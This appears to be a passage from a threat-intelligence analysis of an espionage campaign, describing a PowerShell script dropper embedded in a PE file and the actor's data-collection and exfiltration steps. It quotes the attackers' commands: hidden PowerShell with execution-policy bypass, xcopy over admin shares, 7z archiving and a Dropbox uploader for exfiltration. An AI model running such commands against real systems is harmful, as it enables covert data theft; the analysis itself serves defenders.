 


The attackers try to evade defenses by protecting the scripts and distributing them with specific droppers that embed the script code inside the PE “.text” section.

PowerShell script inside the executable
The dropper receives two parameters; the first is a password string that must be provided to start the execution, and the second is a number that is actually transferred via the command line to the PS script. Once started, the dropper creates a file named pro.ps1 and executes it via PowerShell:


PowerShell


c:\users\public\mfc.exe letgo 3
powershell.exe -windowstyle hidden -exec bypass "c:\users\public\pro.ps1" 3




12

c:\users\public\mfc.exe letgo 3powershell.exe -windowstyle hidden -exec bypass "c:\users\public\pro.ps1" 3




In other cases, we observed script variants designed solely to collect data and copy files to specific folders, but without including them in compressed archives. In these cases, the actor executed the script on the remote host using the standard remote task execution technique. The collected files were then manually transferred to the exfiltration host using the xcopy utility and finally compressed using the 7z binary:


PowerShell


xcopy \\%hostname%\c$\programdata\intel c:\intel\%hostname% /f /s /h
7z64 a %hostname%.z %hostname% -v200m




12

xcopy \\%hostname%\c$\programdata\intel c:\intel\%hostname% /f /s /h7z64 a %hostname%.z %hostname% -v200m




The activity then continues with the actual exfiltration using one of the aforementioned tools, Pcexter or the Dropbox uploader:


PowerShell


db_org.exe %Dropbox Auth Bearer%




1

db_org.exe %Dropbox Auth Bearer%
